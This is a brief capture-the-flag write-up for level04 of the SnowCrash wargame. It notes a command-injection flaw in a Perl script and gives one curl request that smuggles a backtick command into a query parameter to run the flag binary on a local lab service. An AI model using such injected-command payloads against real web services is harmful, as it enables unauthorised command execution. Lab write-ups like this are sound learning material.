# Find the password of Flag04

## First check :
Home directory : \[✓\] not empty.

```
$ ls
$ level04.pl
```
## Deeper check :

`cat level04.pl`

In the perl file, we noticed that there is a possibility to inject a command in the param.

`curl 'localhost:4747?x=\`getflag\`'`



## TADAAAAAAA, (oh already.) It's ... 
[The next level flag](https://github.com/XD-OB/snowcrash/blob/master/level04/flag)

_tobecontinued_